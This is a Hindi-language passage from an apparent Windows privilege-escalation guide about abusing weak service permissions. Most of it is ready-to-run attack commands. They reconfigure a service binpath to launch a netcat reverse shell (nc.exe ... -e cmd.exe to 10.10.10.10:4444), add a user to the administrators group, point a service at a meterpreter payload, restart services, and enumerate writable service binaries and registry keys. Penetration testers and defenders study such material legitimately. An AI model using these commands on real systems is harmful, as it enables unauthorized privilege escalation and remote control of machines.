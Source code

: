 उस परिदृश्य में जहां "प्रमाणित उपयोगकर्ता" समूह के पास एक सेवा पर **SERVICE_ALL_ACCESS** है, सेवा के निष्पादन योग्य बाइनरी में संशोधन करना संभव है। **sc** को संशोधित और निष्पादित करने के लिए:
```bash
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```
### सेवा पुनः प्रारंभ करें
```bash
wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name]
```
Privileges को विभिन्न अनुमतियों के माध्यम से बढ़ाया जा सकता है:

- **SERVICE_CHANGE_CONFIG**: सेवा बाइनरी की पुनः कॉन्फ़िगरेशन की अनुमति देता है।
- **WRITE_DAC**: अनुमति पुनः कॉन्फ़िगरेशन को सक्षम करता है, जिससे सेवा कॉन्फ़िगरेशन बदलने की क्षमता मिलती है।
- **WRITE_OWNER**: स्वामित्व अधिग्रहण और अनुमति पुनः कॉन्फ़िगरेशन की अनुमति देता है।
- **GENERIC_WRITE**: सेवा कॉन्फ़िगरेशन बदलने की क्षमता को विरासत में लेता है।
- **GENERIC_ALL**: सेवा कॉन्फ़िगरेशन बदलने की क्षमता को भी विरासत में लेता है।

इस कमजोरियों की पहचान और शोषण के लिए, _exploit/windows/local/service_permissions_ का उपयोग किया जा सकता है।

### Services binaries कमजोर अनुमतियाँ

**जांचें कि क्या आप उस बाइनरी को संशोधित कर सकते हैं जो एक सेवा द्वारा निष्पादित होती है** या यदि आपके पास **फोल्डर पर लिखने की अनुमतियाँ हैं** जहाँ बाइनरी स्थित है ([**DLL Hijacking**](dll-hijacking/index.html))**.**\
आप **wmic** (system32 में नहीं) का उपयोग करके हर बाइनरी प्राप्त कर सकते हैं जो एक सेवा द्वारा निष्पादित होती है और अपनी अनुमतियों की जांच करने के लिए **icacls** का उपयोग कर सकते हैं:
```bash
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```
आप **sc** और **icacls** का भी उपयोग कर सकते हैं:
```bash
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```
### Services registry modify permissions

आपको यह जांचना चाहिए कि क्या आप किसी सेवा रजिस्ट्र्री को संशोधित कर सकते हैं।\
आप एक सेवा **रजिस्ट्र्री** पर अपनी **अनुमतियों** की **जांच** करने के लिए:
```bash
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```
यह जांचना चाहिए कि **Authenticated Users** या **NT AUTHORITY\INTERACTIVE** के पास `FullControl` अनुमतियाँ हैं या नहीं। यदि हाँ, तो सेवा द्वारा निष्पादित बाइनरी को बदला जा सकता है।
